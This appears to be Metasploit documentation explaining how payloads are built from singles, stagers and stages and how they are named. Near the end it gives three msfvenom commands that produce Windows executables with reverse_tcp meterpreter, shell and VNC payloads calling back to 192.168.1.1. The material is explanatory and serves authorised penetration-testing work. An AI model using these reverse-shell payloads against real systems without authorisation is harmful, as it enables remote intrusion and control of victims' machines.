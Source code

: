 # How Payloads Work

* Payload modules are stored in modules/payloads/{singles,stages,stagers}/<platform>. When the framework starts up, stages are combined with stagers to create a complete payload that you can use in exploits. Then, handlers are paired with payloads so the framework will know how to create sessions with a given communications mechanism.

* Payloads are given reference names that indicate all the pieces, like so:

      Staged payloads: <platform>/[arch]/<stage>/<stager>
      Single payloads: <platform>/[arch]/<single>

* This results in payloads like windows/x64/meterpreter/reverse_tcp. Breaking that down, the platform is windows, the architecture is x64, the final stage we're delivering is meterpreter, and the stager delivering it is reverse_tcp.

* Note that architecture is optional because in some cases it is either unnecessary or implied. An example is php/meterpreter/reverse_tcp. Arch is unneeded for PHP payloads because we're delivering interpreted code rather than native.
Singles

* Single payloads are fire-and-forget. They can create a communications mechanism with Metasploit, but they don't have to. An example of a scenario where you might want a single is when the target has no network access -- a fileformat exploit delivered via USB key is still possible.
Stagers

* Stagers are a small stub designed to create some form of communication and then pass execution to the next stage. Using a stager solves two problems. First, it allows us to use a small payload initially to load up a larger payload with more functionality. Second, it makes it possible to separate the communications mechanism from the final stage so one payload can be used with multiple transports without duplicating code.
Stages

* Since the stager will have taken care of dealing with any size restrictions by allocating a big chunk of memory for us to run in, stages can be arbitrarily large. One advantage of that is the ability to write final-stage payloads in a higher-level language like C.
Delivering stages

* The IP address and port you want the payload to connect back to are embedded in the stager. As discussed above, all staged payloads are no more than a small stub that sets up communication and executes the next stage. When you create an executable using a staged payload, you're really just creating the stager. So the following commands would create functionally identical exe files:

      msfvenom -f exe LHOST=192.168.1.1 -p windows/meterpreter/reverse_tcp
      msfvenom -f exe LHOST=192.168.1.1 -p windows/shell/reverse_tcp
      msfvenom -f exe LHOST=192.168.1.1 -p windows/vncinject/reverse_tcp

(Note that these are functionally identical -- there is a lot of randomization that goes into it so no two executables are exactly the same.)

* The Ruby side acts as a client using whichever transport mechanism was set up by the stager (e.g.: tcp, http, https).
In the case of a shell stage, Metasploit will connect the remote process's stdio to your terminal when you interact with it.
In the case of a Meterpreter stage, Metasploit will begin speaking the Meterpreter wire protocol.

